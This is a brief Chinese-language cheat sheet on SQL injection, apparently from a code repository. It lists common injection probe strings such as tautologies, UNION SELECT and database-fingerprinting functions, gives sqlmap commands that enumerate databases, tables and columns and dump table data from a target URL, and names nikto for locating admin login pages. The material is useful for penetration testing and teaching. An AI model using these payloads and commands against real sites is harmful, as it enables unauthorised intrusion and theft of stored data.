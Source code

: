 # SQL 注入

## 探测到底是不是通过拼接字符串方式使用 SQL

- 常用字符：

```
'
"
' and 1=1
' and 1=2
1 or 1=1
1' or '1'='1
1" or "1"="1
1' order by 1--
union select 1,2--
@@version
@@datadir
user()
database()
information_schema.tables

```


## sqlmap 分析数据库和表名、dump 表数据

- 获取数据库和服务器信息：`sqlmap -u 目标网址 --dbs --current-user`
- 获取有几张表：`sqlmap -u 目标网址 --tables`
- 获取指定表的字段有哪些：`sqlmap -u 目标网址 -T 表名 --columns`
- 获取指定表有哪些值：`sqlmap -u 目标网址 -T 表名 -C 字段名1,字段名2,字段名3 --dump`


## 分析登录后台入口

- nikto
